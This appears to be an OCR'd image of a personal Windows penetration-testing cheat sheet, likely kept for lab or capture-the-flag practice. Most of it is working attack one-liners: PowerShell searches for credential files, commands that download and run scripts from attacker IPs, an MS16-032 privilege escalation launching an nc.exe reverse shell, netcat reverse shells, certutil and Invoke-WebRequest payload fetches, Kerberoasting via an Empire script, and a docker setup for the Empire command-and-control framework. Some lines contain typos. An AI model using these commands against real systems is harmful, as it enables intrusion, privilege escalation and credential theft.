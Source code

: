 ```
# Examples

(Get-ChildItem -File -Recurse | Measure-Object).Count
Get-ChildItem -Recurse -Path N:\ -Include *cred* -File
Get-ChildItem -Recurse -Path N:\ | Select-String "cred" -List
```

- findstr = grep
### Windows: get file
  - powershell iex (New-Object Net.WebClient).DownloadString('http://IP:PORT/Invoke-name.ps1'); Invoke-name -Reverse -IPAddress your-ip -Port your-port
    - C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.XX.XX/Invoke-MS16032.ps1'); Invoke-MS16032 -Command 'C:\\Users\\Public\\nc.exe -e cmd.exe 10.10.XX.XX 1337' 
  - nc.exe $ATTACKING_IP PORT -e cmd.exe
  - powershell -c Invoke-Webrequest -OutFile winPeas.bat http://Attcker/File
  - powershell -c "(new-object System.Net.WebClient).Downloadfile('https://Attcker/File', 'C:\Users\fela.CORP\Downloads\PowerUp.ps1')" = Load the script
  - iex(New-Object Net.WebClient).DownloadString("http://10.9.1.255:80/PowerUp.ps1")dir
  - powershell -c wget "http://Attcker/File -outfile "PowerUp.ps1"
  - powershell IWR -Uri 'http://10.10.16.2:8000/nc64.exe' -Outfile c:\nc.exe

  - **certutil** -urlcache -f http://10.9.1.255:80/nc.exe nc.exe
  
  - copy (New-Object System.Net.WebClient).Downloadfile('http://ATTACKING_MACHINE:PORT/FILE','C:\path\to\target\FILE')

#### Connecting with nc
- nc.exe TARGET PORT -e cmd.exe
  
### Enumerate

- **Check permisions**
  - powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list" ==> if fullcontroll = vuln
  -  setspn -T medin -Q ​ */* 
- Invoke Kereberosast script:
  - iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

```
# Docker Empire

## [isaudits/docker-empire](https://github.com/isaudits/docker-empire)
## [hoptimumthreat/powershell-empire-docker](https://github.com/hoptimumthreat/powershell-empire-docker)


docker run -it -p 80:80 \
-p 443:443 -p 8080:8080 \
-p 8081:8081 \
-v ~/Empire/tmp:/tmp \
-v ~/Empire/data:$(pwd)/Empire/data/downloads \
hoptimumthreat/powershell-empire

```
